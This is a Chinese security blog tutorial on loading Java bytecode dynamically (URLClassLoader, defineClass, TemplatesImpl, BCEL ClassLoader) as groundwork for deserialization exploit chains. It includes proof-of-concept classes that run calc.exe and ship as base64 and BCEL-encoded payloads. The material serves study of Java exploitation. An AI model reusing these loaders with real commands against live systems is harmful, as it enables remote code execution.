




+++
title= "Java中动态加载字节码"
slug= "java-dynamic-bytecode-loading"
description= ""
date= "2025-09-02T21:21:47+08:00"
lastmod= "2025-09-02T21:21:47+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

本文介绍几个加载字节码的常用方法。方便后续学习CC2、fastjson、内存马等应用做

## 概念

严格意义上来说，Java字节码(ByteCode)其实仅仅指的是Java虚拟机执行使用的一类指令，通常被存储 在.class文件中。

知周所众，不同平台、不同CPU的计算机指令有差异，但因为Java是一门跨平台的编译型语言，所以这些差异对于上层开发者来说是透明的，上层开发者只需要将自己的代码编译一次，即可运行在不同平台的JVM虚拟机中。

甚至，开发者可以用类似Scala、Kotlin这样的语言编写代码，只要你的编译器能够将代码编译成.class文 件，都可以在JVM虚拟机中运行（超模的JVM）:


加载也分几种，不过不论是加载远程class文件，还是本地的class或jar文件，Java都经历的是下面这三个方法调用:



1. `loadClass`的作用是从已加载的类缓存、父加载器等位置寻找类(这里实际上是双亲委派机制)，在前面没有找到的情况下，执行`findClass`
2. `findClass`的作用是根据基础URL指定的方式来加载类的字节码，可能会在本地文件系统、jar包或远程http服务器上读取字节码，然后交给`defineClass`
3. `defineClass`的作用是处理前面传入的字节码，将其处理成真正的Java类

## 利用URLClassLoader加载远程class文件

Java的ClassLoader来用来加载字节码文件最基础的方法，学习反射的时候就有所了解，

`ClassLoader`是什么呢?它就是一个“加载器”，告诉Java虚拟机如何加载这个类。

Java默认的`ClassLoader`就是根据类名来加载类，这个类名是类完整路径，如`java.lang.Runtime`。

`URLClassLoader`实际上是我们平时默认使用的`AppClassLoader`的父类，所以解释`URLClassLoader`的工作过程实际上就是在解释默认的Java类加载器的工作流程。

正常情况下，Java会根据配置项`sun.boot.class.path`和`java.class.path`中列举到的基础路径(这些路径经过处理后为`java.net.URL`类)来查找和加载.class文件来加载，而这个基础路径有分为三种情况:

- URL未以斜杠 `/` 结尾，则认为是一个JAR文件，使用 `JarLoader` 来寻找类，即为在Jar包中寻找 `.class` 文件。
- URL以斜杠 `/` 结尾，且协议名是 `file`，则使用 `FileLoader` 来寻找类，即为在本地文件系统中寻找 `.class` 文件。
- URL以斜杠 `/` 结尾，且协议名不是 `file`，则使用最基础的 `Loader` 来寻找类。

一般地，我们远程加载肯定是用第三种，类似于RMI服务，测试一下

```java
package Base.Unserialize.Base;

public class Hello {
    static
    {
        System.out.println("Hello guys!");
    }
}
```

放在本地8888端口，再写一个加载的类

```java
package Base.Unserialize.Base;

import java.net.URL;
import java.net.URLClassLoader;
public class HelloClassLoader {
    public static void main( String[] args ) throws Exception
    {
        URL[] urls = {new URL("http://localhost:8888/")};
        URLClassLoader loader = URLClassLoader.newInstance(urls);
        Class c = loader.loadClass("Hello");
        c.newInstance();
    }
}
```



也就是说只要我们路径可控就可以随便进行字节码的远程加载

## 利用`ClassLoader#defineClass`直接加载字节码

从前文的加载字节码顺序我们可知核心部分为`defineClass`，他将一段字节流变成了一个Java类，默认的`ClassLoader#defineClass`是一个native方法(本地)，逻辑存在于JVM的代码中

这里可以写个简单的demo了解其工作机制，以及代码如何去写。

值得注意的是，在 defineClass 被调用的时候，类对象是不会被初始化的，只有这个对象显式地调用其构造函数，初始化代码才能被执行。而且，即使我们将初始化代码放在类的static块中，在 defineClass 时也无法被直接调用到。所以，如果我们要使用 defineClass 在目 标机器上执行任意代码，需要想办法调用构造函数。

而且由于`ClassLoader#defineClass`是一个保护属性，还必须反射调用

```java
javac Hello.java
cat Hello.class | base64
package Base.Unserialize.Base;

import java.lang.reflect.Method;
import java.util.Base64;

public class HelloDefineClass {
    public static void main(String[] args) {
        try {
            Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            byte[] code = Base64.getDecoder().decode("yv66vgAAADQAHAoABgAOCQAPABAIABEKABIAEwcAFAcAFQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAg8Y2xpbml0PgEAClNvdXJjZUZpbGUBAApIZWxsby5qYXZhDAAHAAgHABYMABcAGAEAC0hlbGxvIGd1eXMhBwAZDAAaABsBABtCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG8BABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAACAAEABwAIAAEACQAAAB0AAQABAAAABSq3AAGxAAAAAQAKAAAABgABAAAAAwAIAAsACAABAAkAAAAlAAIAAAAAAAmyAAISA7YABLEAAAABAAoAAAAKAAIAAAAGAAgABwABAAwAAAACAA0=");

            Class<?> hello = (Class<?>) defineClass.invoke(ClassLoader.getSystemClassLoader(),
                    "Base.Unserialize.Base.Hello", code, 0, code.length);
            hello.newInstance();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

## 利用`TemplatesImpl`加载字节码

`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`这个类中定义了一个内部类

`TransletClassLoader`：

```java
static final class TransletClassLoader extends ClassLoader {
        private final Map<String,Class> _loadedExternalExtensionFunctions;

         TransletClassLoader(ClassLoader parent) {
             super(parent);
            _loadedExternalExtensionFunctions = null;
        }

        TransletClassLoader(ClassLoader parent,Map<String, Class> mapEF) {
            super(parent);
            _loadedExternalExtensionFunctions = mapEF;
        }

        public Class<?> loadClass(String name) throws ClassNotFoundException {
            Class<?> ret = null;
            // The _loadedExternalExtensionFunctions will be empty when the
            // SecurityManager is not set and the FSP is turned off
            if (_loadedExternalExtensionFunctions != null) {
                ret = _loadedExternalExtensionFunctions.get(name);
            }
            if (ret == null) {
                ret = super.loadClass(name);
            }
            return ret;
         }

        /**
         * Access to final protected superclass member from outer class.
         */
        Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
    }
```

这里重写了`defineClass`方法，没有显示声明其定义域，那么他作用域为default，就可以被外部直接调用。如何调用到了，追溯一下gadgets

```java
private void defineTransletClasses()
        throws TransformerConfigurationException {

        if (_bytecodes == null) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
            throw new TransformerConfigurationException(err.toString());
        }

        TransletClassLoader loader = (TransletClassLoader)
            AccessController.doPrivileged(new PrivilegedAction() {
                public Object run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
                }
            });

        try {
            final int classCount = _bytecodes.length;
            _class = new Class[classCount];

            if (classCount > 1) {
                _auxClasses = new HashMap<>();
            }

            for (int i = 0; i < classCount; i++) {
                _class[i] = loader.defineClass(_bytecodes[i]);
                final Class superClass = _class[i].getSuperclass();

                // Check if this is the main class
                if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                    _transletIndex = i;
                }
                else {
                    _auxClasses.put(_class[i].getName(), _class[i]);
                }
            }

            if (_transletIndex < 0) {
                ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
                throw new TransformerConfigurationException(err.toString());
            }
        }
        catch (ClassFormatError e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
        catch (LinkageError e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
```

`loader.defineClass(_bytecodes[i]);`

```java
private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            translet.postInitialization();
            translet.setTemplates(this);
            translet.setOverrideDefaultParser(_overrideDefaultParser);
            translet.setAllowedProtocols(_accessExternalStylesheet);
            if (_auxClasses != null) {
                translet.setAuxiliaryClasses(_auxClasses);
            }

            return translet;
        }
        catch (InstantiationException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
        catch (IllegalAccessException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
```

```java
public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);

        if (_uriResolver != null) {
            transformer.setURIResolver(_uriResolver);
        }

        if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
            transformer.setSecureProcessing(true);
        }
        return transformer;
    }
```

```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

1. `newTransformer()`

- 调用 `getTransletInstance()`

- 检查 `_name`，可能调用 `defineTransletClasses()`

- 检查 `_bytecodes`，创建 `TransletClassLoader` 实例 `loader`
- 遍历 `_bytecodes`，每个字节码通过 `loader.defineClass(_bytecodes[i])` 被加载

- 调用 `TransletClassLoader` 的 `defineClass` 方法（内部调用 `ClassLoader.defineClass`）

- 完成类的定义，并确定转化类索引

1. 在 `getTransletInstance()` 中的调用

- 通过 `newInstance()` 创建转化类的实例
- 返回转化类实例，供 `newTransformer()` 使用

1. 在 `newTransformer()` 中的调用

- 创建并返回 `TransformerImpl` 实例，用于执行具体的转换操作。

总的来说，我们现在可以直接获取`defineClass`了，现在来试试用`newTransformer`加载字节码

其中，setFieldValue 方法用来设置私有属性，可见，这里设置了三个属性： `_bytecodes`、`_name` 和 `_tfactory`。 `_bytecodes` 是由字节码数组构成的，`_name` 可以是任意字符串，只要不为 null 即可； `_tfactory` 需要是一个 `TransformerFactoryImpl` 对象，因为 `TemplatesImpl#defineTransletClasses()` 方法里调用 `_tfactory.getExternalExtensionsMap()`，如果是 null 会出错。

另外，值得注意的是，`TemplatesImpl` 中加载的字节码是有一定要求的：这个字节码必须是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` 的子类。所以构造如下`HelloTemplatesImpl`

```java
package Base.Unserialize.Base;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class HelloTemplatesImpl extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public HelloTemplatesImpl() {
        super();
        System.out.println("Hello TemplatesImpl");
    }
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {}
    }
}
```

加载的话就正常写就行了，没什么注意的

```java
package Base.Unserialize.Base;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.util.Base64;
import static ysoserial.payloads.util.Reflections.setFieldValue;

public class Test {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADMAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BAAhjYWxjLmV4ZQwAMAAxAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAKEJhc2UvVW5zZXJpYWxpemUvQmFzZS9IZWxsb1RlbXBsYXRlc0ltcGwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAkACgAAAAAABAABAAsADAACAA0AAAAZAAAAAwAAAAGxAAAAAQAOAAAABgABAAAACgAPAAAABAABABAAAQALABEAAgANAAAAGQAAAAQAAAABsQAAAAEADgAAAAYAAQAAAAwADwAAAAQAAQAQAAEAEgATAAEADQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAA4AAAAOAAMAAAAPAAQAEAAMABEACAAUABMAAQANAAAAQwACAAEAAAAOuAAFEga2AAdXpwAES7EAAQAAAAkADAAIAAIADgAAAA4AAwAAABQACQAVAA0AFgAVAAAABwACTAcAFgAAAQAXAAAAAgAY");
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{ code });
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        obj.newTransformer();
    }
}
```

成功加载



在Windows获得字节码，还是写一个Java方便

```java
package Base.Unserialize.Base;

import java.nio.file.*;
import java.util.Base64;

public class Encode {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("E:/IntelliJ-IDEA/project/Base/src/test/java/Base/Unserialize/Base/HelloTemplatesImpl.class"));
        String encoded = Base64.getEncoder().encodeToString(bytes);
        System.out.println(encoded);
    }
}
```

##  利用BCEL ClassLoader加载字节码  

bcel字节码也必然在我们的讨论范围内，且占据着比较重要的地位。 BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目，但其因为被Apache Xalan所使用，而Apache Xalan又是Java内部对于JAXP的实现，所以BCEL也被包含在了JDK的原生库中。  

https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

但是他被放入原生库的原因主要是因为支撑Java XML相关的功能。准确的来说，Java XML功能包含了JAXP规范，而Java中自带的JAXP实现使用了Apache Xerces和Apache Xalan，Apache Xalan又依赖了BCEL，所以BCEL也被放入了标准库中。

JAXP全名是Java API for XML Processing，他是Java定义的一系列接口，用于处理XML相关的逻辑，包括DOM、SAX、StAX、XSLT等。Apache Xalan实现了其中XSLT相关的部分，其中包括xsltc compiler。

XSLT（扩展样式表转换语言）是一种为可扩展置标语言提供表达形式而设计的计算机语言，主要用于将XML转换成其他格式的数据。既然是一门动态“语言”，在Java中必然会先被编译成Java，才能够执行。

XSLTC Compiler就是一个命令行编译器，可以将一个xsl文件编译成一个class文件或jar文件，编译后的class被称为translet，可以在后续用于对XML文件的转换。其实就将XSLT的功能转化成了Java代码，优化执行的速度，如果我们不使用这个命令行编译器进行编译，Java内部也会在运行过程中存在编译的过程。

既然进行了编译，所以就会产生字节码，而BCEL正是一个处理字节码的库

BCEL这个包中有个类`com.sun.org.apache.bcel.internal.util.ClassLoader`，它是一个ClassLoader，但是他重写了Java内置的`ClassLoader#loadClass()`方法。

在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。具体算法在这里：

```java
private static class JavaWriter extends FilterWriter {
    public JavaWriter(Writer out) {
      super(out);
    }

    public void write(int b) throws IOException {
      if(isJavaIdentifierPart((char)b) && (b != ESCAPE_CHAR)) {
        out.write(b);
      } else {
        out.write(ESCAPE_CHAR); // Escape character

        // Special escape
        if(b >= 0 && b < FREE_CHARS) {
          out.write(CHAR_MAP[b]);
        } else { // Normal escape
          char[] tmp = Integer.toHexString(b).toCharArray();

          if(tmp.length == 1) {
            out.write('0');
            out.write(tmp[0]);
          } else {
            out.write(tmp[0]);
            out.write(tmp[1]);
          }
        }
      }
    }

    public void write(char[] cbuf, int off, int len) throws IOException {
      for(int i=0; i < len; i++)
        write(cbuf[off + i]);
    }

    public void write(String str, int off, int len) throws IOException {
      write(str.toCharArray(), off, len);
    }
  }
```

那这里我们可以编写一个恶意类进行加载

```java
package Base.Unserialize.Base;

public class Evil {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {}
    }
}
```

```java
package Base.Unserialize.Base;

import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class CalcBCEL {
    public static void main(String []args) throws Exception {
        JavaClass cls = Repository.lookupClass(Evil.class);
        String code = Utility.encode(cls.getBytes(), true);
        //System.out.println(code);
        System.out.println("$$BCEL$$" + code);
        decode();
    }
    public static void decode() throws Exception {
        new ClassLoader().loadClass("$$BCEL$$$l$8b$I$A$A$A$A$A$A$AuQ$c9N$c30$Q$7dnC$b3$90$ee$ec$3b$tZ$O$cd$85$5b$R$H$Q$5c$I$8b$u$cb$d95V1$a4I$95$a4$a8$e2$878s$B$c4$81$P$e0$a3$Q$e3$80$A$Ja$c9$f34o$e6$bd$Z$cbo$ef$_$af$A6$b0$ea$c0$c4$84$83ILY$98$d68cb$d6$c4$9c$89y$86$c2$a6$KU$ba$c5$90o4$cf$Z$8c$9d$e8R2$94$7d$V$ca$c3a$bf$x$e3S$de$N$88$a9$f9$91$e0$c19$8f$95$ce$bfH$p$bdR$J$c3$82$bf$cd$T$e9$9d$85$89$a4r$a0$ee$a4$97$R$bb$b7$wh3X$9b$o$f8$gR$ec$a4$5c$dc$i$f0Af$40k08$9dh$Y$L$b9$a7$b4$a1$ad$r$adk$7e$cb$5dX$b0M$y$b8X$c4$Sy$d0p$d1$92$p$e9b$Z$x$Mu$dd$e3$F$3c$ecy$bb$p$n$H$a9$8aB$86$b9$ff$f7$60$a8$fcH$8e$ba$d7R$a4$M$d5$l$ead$Y$a6$aaO$x8$3d$99$7e$t$93$8d$a6$ff$a7$87$9ed$d0$s$82a$ad$f1$ab$daIc$V$f6$da$bf$F$c7q$qd$92$b4$b1$8a$C$7d$82$3e90$fd2$8a$Oe$k$n$p$i$5b$7f$C$7b$c8$ca$e3$U$L$Z$99$87K$d1$fdl$40$R$rB$L$e5o$f1$7ef$G$94$9e$91$ab$e5$la$5c$dc$c3$d8$7f$c88$9btc$e4$a0$ddJ$84$da$d3$a6$V$8a$e4$e0fs$80$K$5d$T9$dfD$V$q$aaet$fd$D$bbp$ed$a58$C$A$A").newInstance();
    }
}
```



我感觉这个比前面的好用多了，但是在Java 8u251的更新中，这个ClassLoader被移除了。

BCEL ClassLoader在Fastjson等漏洞的利用链构造时都有被用到，其实这个类和前面的 TemplatesImpl 都出自于同一个第三方库，Apache Xalan。
